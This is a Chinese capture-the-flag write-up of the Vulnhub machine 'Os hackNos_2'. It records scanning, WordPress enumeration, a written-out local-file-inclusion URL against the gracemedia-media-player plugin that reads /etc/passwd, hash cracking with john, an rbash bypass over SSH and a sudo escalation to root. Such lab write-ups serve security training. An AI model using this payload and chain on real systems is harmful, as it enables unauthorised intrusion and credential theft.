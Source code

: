 ```yaml
---
layout: post
title: "Os hackNos_2 walkthrough"
date: 2021-06-27
author: 2hanx
toc: true
categories: [Vulnhub]
tags: []
---
```


### 主机识别

`arp-scan -l`

### 网络拓扑

| 计算机        | IP               |
| ------------- | ---------------- |
| 本机（Win10） | `192.168.36.234` |
| Kali          | `192.168.36.89`  |
| OS-hackNos-2  | `192.168.36.54`  |

### 扫描端口和版本信息

`nmap -A 192.168.36.54`

```shell
┌──(root💀kali)-[~]
└─# nmap -A 192.168.36.54
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-27 14:13 UTC
Nmap scan report for 192.168.36.54
Host is up (0.021s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:36:4e:71:6a:83:e2:c1:1e:a9:52:64:45:f6:29:80 (RSA)
|   256 b4:ce:5a:c3:3f:40:52:a6:ef:dc:d8:29:f3:2c:b5:d1 (ECDSA)
|_  256 09:6c:17:a1:a3:b4:c7:78:b9:ad:ec:de:8f:64:b1:7b (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: A8:66:7F:1B:19:D8 (Apple)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

从结果中知道靶机开启**22**、**80**端口，信息比较简单，接下来进行目录枚举

### 枚举目录

```shell
┌──(root💀kali)-[~]
└─# dirb http://192.168.36.54/
...
---- Scanning URL: http://192.168.36.54/ ----
+ http://192.168.36.54/index.html (CODE:200|SIZE:10918)
+ http://192.168.36.54/server-status (CODE:403|SIZE:278)
==> DIRECTORY: http://192.168.36.54/tsweb/

---- Entering directory: http://192.168.36.54/tsweb/ ----
+ http://192.168.36.54/tsweb/index.php (CODE:301|SIZE:0)
==> DIRECTORY: http://192.168.36.54/tsweb/wp-admin/
==> DIRECTORY: http://192.168.36.54/tsweb/wp-content/
==> DIRECTORY: http://192.168.36.54/tsweb/wp-includes/
+ http://192.168.36.54/tsweb/xmlrpc.php (CODE:200|SIZE:0)
```

结果显示在网站目录*/tsweb*下运行的是WordPress CMS，知道这个信息就行了，接着用*wpscan*工具进行扫描即可。先试试枚举用户

> 注意网站路径，需要加上*/tsweb*

```shell
┌──(root💀kali)-[~]
└─# wpscan --url http://192.168.36.54/tsweb -e u
________________________________________________
...
[i] User(s) Identified:

[+] user
 | Found By: Rss Generator (Passive Detection)
 | Confirmed By:
 |  Wp Json Api (Aggressive Detection)
 |   - http://192.168.36.54/tsweb/index.php/wp-json/wp/v2/users/?per_page=100&page=1
 |  Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 |  Login Error Messages (Aggressive Detection)
...
```

结果不尽如意，那么再看看WordPress使用了哪些插件

```shell
┌──(root💀kali)-[~]
└─# wpscan --url http://192.168.36.54/tsweb/ -e ap
___________________________________________________
...
[i] Plugin(s) Identified:

[+] gracemedia-media-player
 | Location: http://192.168.36.54/tsweb/wp-content/plugins/gracemedia-media-player/
 | Latest Version: 1.0 (up to date)
 | Last Updated: 2013-07-21T15:09:00.000Z
 |
 | Found By: Urls In Homepage (Passive Detection)
 |
 | Version: 1.0 (100% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://192.168.36.54/tsweb/wp-content/plugins/gracemedia-media-player/readme.txt
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)
 |  - http://192.168.36.54/tsweb/wp-content/plugins/gracemedia-media-player/readme.txt
...
```

结果显示使用了**gracemedia-media-player**插件，并且版本号为**1.0**。*searchsploit*工具搜索没有结果，google搜索后发现该版本下存在LFI漏洞，详情以及PoC可[在这查看](https://seclists.org/fulldisclosure/2019/Mar/26
)，漏洞点在*ajax_controller.php*文件中`require_once($_GET['cfg']);`，*cfg*参数存在LFI漏洞，因此本实验PoC如下：

```http
http://192.168.36.54/tsweb/wp-content/plugins/gracemedia-media-player/templates/files/ajax_controller.php?ajaxAction=getIds&cfg=../../../../../../../../../../etc/passwd
```

从返回结果的*passwd*文件中发现存在用户名为*flag*和它密码的hash：`flag:$1$flag$vqjCxzjtRc7PofLYS2lWf/:1001:1003::/home/flag:/bin/rbash`，并且从中可以知道该用户使用的shell为**rbash**，因此在后续步骤中需要将**rbash** shell却换成**bash**。不过在此之前需要对密码进行hash破解。

### 密码破解

使用*john*的密码本模式进行hash破解，命令如下：

```shell
┌──(root💀kali)-[~]
└─# john --wordlist=/usr/share/wordlists/Passwords/Leaked-Databases/rockyou.txt hash.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 ASIMD 4x2])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
topsecret        (flag)
1g 0:00:00:00 DONE (2021-06-27 15:01) 4.347g/s 28382p/s 28382c/s 28382C/s princess07..micky
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

至此我们知道了用户*flag*的密码*topsecret*，使用该用户名和密码登录WordPress后台时发现不行，尝试后发现是进行ssh登录，其实从之前的*passwd*文件中就可以看出来。

### Restricted shell绕过

受限的shell 也是一个Linux shell，从名称中就可以知道该shell是限制了bash shell的一些功能。Restricted shell用于某些特定场景，对普通用户使用而言就不合适，可以阅读[这篇文章](https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/)进行**rbash** shell绕过。

ssh登录命令改为：`ssh flag@192.168.36.54 -t "bash --noprofile"`，这样该用户使用的shell就会切换成*bash*。经过一番探索后发现靶机*/home*目录下只存在一个*rohit*用户，并且也未查找到有用的具备SUID权限的文件。

```shell
flag@hacknos:/home$ ls
rohit
flag@hacknos:/home$ id
uid=1001(flag) gid=1003(flag) groups=1003(flag)
flag@hacknos:/home$ sudo -l
[sudo] password for flag:
Sorry, user flag may not run sudo on hacknos.
flag@hacknos:/home$ cd rohit
flag@hacknos:/home/rohit$ ls
ls: cannot open directory '.': Permission denied
```

最终在*/var/backups/passbkp/*目录下发现*rohit*账户的密码hash值。​与之前一致，*john*爆破后得到的密码是：`!%hack41`。切换到*rohit*用户在该用户主目录下找到第一个flag。

```shell
rohit@hacknos:~$ cat user.txt
############################################
 __    __   _______   ______    ______
/  |  /  | /       | /      \  /      \
$$ |  $$ |/$$$$$$$/ /$$$$$$  |/$$$$$$  |
$$ |  $$ |$$      \ $$    $$ |$$ |
$$ \__$$ | $$$$$$  |$$$$$$$$/ $$ |
$$    $$/ /     $$/ $$       |$$ |
 $$$$$$/  $$$$$$$/   $$$$$$$/ $$/



############################################

MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b
```

查看该用户具备的权限时发现可执行任意命令。额~，之后的步骤就简单了。

```shell
rohit@hacknos:~$ sudo passwd root
Enter new UNIX password:
Retype new UNIX password:
passwd: password updated successfully
rohit@hacknos:~$ su - root
Password:
root@hacknos:~# ls
root.txt
root@hacknos:~# cat root.txt
 _______                         __              __  __     #
/       \                       /  |            /  |/  |    #
$$$$$$$  |  ______    ______   _$$ |_          _$$ |$$ |_   #
$$ |__$$ | /      \  /      \ / $$   |        / $$  $$   |  #
$$    $$< /$$$$$$  |/$$$$$$  |$$$$$$/         $$$$$$$$$$/   #
$$$$$$$  |$$ |  $$ |$$ |  $$ |  $$ | __       / $$  $$   |  #
$$ |  $$ |$$ \__$$ |$$ \__$$ |  $$ |/  |      $$$$$$$$$$/   #
$$ |  $$ |$$    $$/ $$    $$/   $$  $$/         $$ |$$ |    #
$$/   $$/  $$$$$$/   $$$$$$/     $$$$/          $$/ $$/     #
#############################################################                                                     

#############################################################                                                     
MD5-HASH : bae11ce4f67af91fa58576c1da2aad4b
```

